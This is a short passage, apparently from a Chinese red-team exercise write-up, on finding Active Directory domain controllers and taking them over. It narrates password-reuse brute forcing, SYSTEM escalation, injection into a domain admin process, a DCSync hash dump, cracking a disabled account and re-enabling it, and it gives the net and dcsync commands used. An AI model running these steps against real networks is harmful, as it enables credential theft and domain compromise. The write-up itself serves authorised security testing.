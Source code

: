 ```php
[*]192.168.10.38 #非真实域控 ip  
   [->]D1-Prod-AD-P01  
   [->]192.168.10.38  
     
[*]192.168.10.20 #非真实域控 ip  
   [->]AD  
   [->]192.168.10.20
```

2、域内主机 DNS 一般就是域控地址

接着可以通过该机器是否开放 53 和 389 端口进行进一步确认

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到 system 权限后注入到域管进程，通过 Dcsync 成功获取域管密码的 hash 值，其中一个被禁用的账户刚好可以通过 cmd5 解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM 中继等

```php
net group "domain admins" /domain  
dcsync domain xxxx  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

![image_CbIuSx-DB0.png](assets/1698900866-b0b2c111a53f65d77853cdd16cbc6ecb.png)
